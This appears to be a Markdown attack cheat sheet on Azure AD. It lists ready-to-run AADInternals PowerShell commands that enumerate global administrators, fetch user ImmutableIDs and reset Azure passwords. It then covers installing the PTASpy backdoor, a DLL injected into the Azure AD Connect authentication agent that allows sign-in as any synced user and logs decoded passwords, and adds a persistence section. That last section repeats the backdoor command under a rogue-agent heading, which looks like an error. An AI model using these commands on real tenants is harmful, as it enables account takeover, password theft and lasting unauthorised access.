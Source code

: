 #### Enumerate global admin
```
Get-AADIntGlobalAdmins
```

#### Get the ImmutableID
```
Get-AADIntUser -UserPrincipalName <NAME> | select ImmutableId
Get-AADIntUsers | Select UserPrincipalName,ImmutableId,ObjectId | Sort UserPrincipalName
```

#### Reset the Azure password
```
Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE ID>" -Password "<PASSWORD>" -Verbose
```

#### Reset password for cloud only user
- Need CloudAnchor ID which is the format ```<USER>_<OBJECTID>```
- Might be fixed already!
```
Import-Module .\AADInternals.psd1
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
Set-AADIntUserPassword -CloudAnchor "<ID>" -Password "<PASSWORD>" -Verbose
```

- Access Azure portal using the new password.

### Pass Through Authentication PTA Abuse
- Once we have admin access to an Azure AD connect server running PTA agent.
- Not reliable method to check if PTA is used, Check if module is available ```Get-Command -Module PassthroughAuthPSModule```
- Once the backdoor is installed, we can authenticate as any user synced from on-prem without knowing the correct password!

#### Install a backdoor (needs to be run as administrator)
- Creates a hidden folder `C:\PTASpy` and Copies a `PTASpy.dll` to `C:\PTASpy` and Injects `PTASpy.dll` to AzureADConnectAuthenticationAgentService process
```
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```

### See passwords of on-prem users authenticating
- Stored in `C:\PTASpy`
```
Import-Module .\AADInternals.psd1
Get-AADIntPTASpyLog
Get-AADIntPTASpyLog -DecodePasswords
```

#### Register a new PTA agent for persistence
- After getting Global Administrator privileges by setting it on a attacker controled machine.
```
Import-Module .\AADInternals.psd1
Install-AADIntPTASpy
```
